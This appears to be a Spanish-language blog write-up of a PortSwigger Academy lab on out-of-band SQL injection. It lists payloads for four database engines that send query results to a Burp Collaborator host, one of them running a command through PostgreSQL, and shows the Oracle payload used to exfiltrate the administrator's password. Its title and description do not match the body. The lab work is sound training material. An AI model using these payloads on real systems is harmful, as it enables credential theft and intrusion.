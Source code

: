 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 16"
date = "2021-11-11"
description = "Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer la contrasena del usuario 'administrator' en la tabla 'users'. Para este caso haciendo uso de la exfiltracion de la propia base de datos para que se conecte a nuestro host y ahi captura lo que es enviado en la url.

## Reconocimiento

Lo primero es saber que tipo de payloads podemos usar para ejecutar la consulta que deseamos, y se encuentran las siguientes:

----------------------
Backend | Consulta
---------|-----------
Oracle | SELECT extractvalue(xmltype('\<?xml version="1.0" encoding="UTF-8"?>\<!DOCTYPE root [ \<!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
Microsoft | declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
PostgreSQL | create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';execute c; END; $$ language plpgsql security definer; SELECT f();
MySQL | SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a' *solo funciona en windows*


###  Payloads

Ahora toca saber cual es el payload correcto para poder resolver el lab, probando de uno en uno llegamos a cual es el correcto, asi que probaremos con Oracle el cual termino siendo el correcto y evitarnos probar cada uno del resto, la consulta ejecutada fue:

```sql
xxxxxxxxxxxx' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--
```
Claramente este codigo debemos convertirlo en formato URL para que no entre en conflicto con el header que es enviado. Para quedarmente enviado y ejecutado de esta manera.

![Peticion enviada con repeater para exfiltrar la contrasena](repeater.png)


Ahora solo queda iniciar sesion con la contrasena de administrator qu es `54m0mxu0yem302cyqm60`.Y con esto hemos resulto el lab:

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)